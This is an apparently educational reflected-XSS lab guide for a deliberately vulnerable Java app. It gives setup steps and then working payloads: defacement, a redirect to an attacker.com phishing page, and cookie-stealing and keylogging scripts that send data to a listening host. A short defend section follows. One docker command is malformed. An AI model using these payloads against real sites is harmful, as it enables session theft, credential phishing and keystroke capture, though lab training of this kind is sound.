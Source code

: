 ### Reflected XSS
---

## Introduction XSS

When looking at XSS (Cross-Site Scripting), there are three generally recognized forms of XSS:

1 . Reflected or Stored
2 . DOM Based XSS.

Cross-site scripting (or XSS) is a code vulnerability that occurs when an attacker “injects” a malicious script into an otherwise trusted website. The injected script gets downloaded and executed by the end user’s browser when the user interacts with the compromised website. Since the script came from a trusted website, it cannot be distinguished from a legitimate script.

## Owasp

https://owasp.org/www-community/attacks/xss/

#### **Lab Image : Java ReflectedXSS**

## Attack

* Step 1: Open browser and go to url

    ```
    http://localhost
    ```

    > **Note:** Replace `localhost` with your server url

* Step 2: Change to directory 

    ```
    cd /root/reflected-xss
    ```

* Step 3: Build the project

    ```
    docker run -it --rm --name my-maven-project -v "$(pwd)":/usr/src/mymaven -p 8080:8080 -/usr/src/mymaven maven:3.3-jdk-8 mvn package
    ```

* Step 4: Now start the app

    ```
    docker-compose up -d
    ```

* Step 5: Now browse to url

    ```
    http://localhost:8888/ReflectedXSS/index.jsp
    ```

    > **Note:** Replace `localhost` with your server ip

* Step 6: Perform a normal activity

    ```
    http://localhost:8888/ReflectedXSS/index.jsp?name=MHN
    ```
    

* Step 7: Try these payloads to perform a XSS attack
    

    * To gain sensitive information

        ```
        http://localhost:8888/ReflectedXSS/index.jsp?name=<script>alert(document.cookie)</script>
        ```            


    * To deface a website
      
        ```
        http://localhost:8888/ReflectedXSS/index.jsp?name=%3Cscript%3Edocument.body.innerHTML%3D%22%3Ch1%3EYou%20have%20been%20hacked%3C%2Fh1%3E%3Cimg%20src%3D'https%3A%2F%2Fimages.fineartamerica.com%2Fimages%2Fartworkimages%2Fmediumlarge%2F2%2Fheath-ledger-joker-portrait-madura-venkatachalam.jpg'%2F%3E%22%3C%2Fscript%3E
        ```
            
        
    * To perform phishing
    
        ```
        http://localhost:8888/ReflectedXSS/index.jsp?name=<script>window.location="http://attacker.com/gmail.html"</script>
        ```
    
    * To steal cookie
    
        ```
        http://localhost:8888/ReflectedXSS/index.jsp?name=<script>var a=new XMLHttpRequest();a.open("GET","http://localhost:9000/?domain="+document.cookie);a.send();</script>
        -------------------------------------
        http://localhost:8888/ReflectedXSS/index.jsp?name=%3Cscript%3Evar%20a%3Dnew%20XMLHttpRequest()%3Ba.open(%22GET%22%2C%22http%3A%2F%2Flocalhost%3A9000%2F%3Fdomain%3D%22%2Bdocument.cookie)%3Ba.send()%3B%3C%2Fscript%3E
        ```
        
    * To Perform keylogging
​    
        ```
        http://localhost:8888/ReflectedXSS/index.jsp?name=%3Cscript%3E%0Adocument.addEventListener(%22keyup%22%2C%20function(e)%7B%0A%09var%20x%20%3D%20new%20XMLHttpRequest()%3B%0A%09var%20url%20%3D%20%22http%3A%2F%2Flocalhost%3A9000%3F%22%2Be.key%0A%09x.open(%22GET%22%2Curl%20%2C%20true)%3B%0A%09x.send()%3B%0A%7D)%3B%0A%3C%2Fscript%3E
        ```
## Defend

* Step 1: Now browse to url

    ```
    http://localhost:8888/ReflectedXSS/secure
    ```

    > **Note:** Replace `localhost` with your server ip

* Step 2: Try these payloads to perform various XSS attacks

    * To gain sensitive information

        ```
        http://localhost:8888/ReflectedXSS/secure.jsp?name=%3Cscript%3Ealert(document.cookie)%3C/script%3E
        ```
        

    This should encoded and should render as normal html



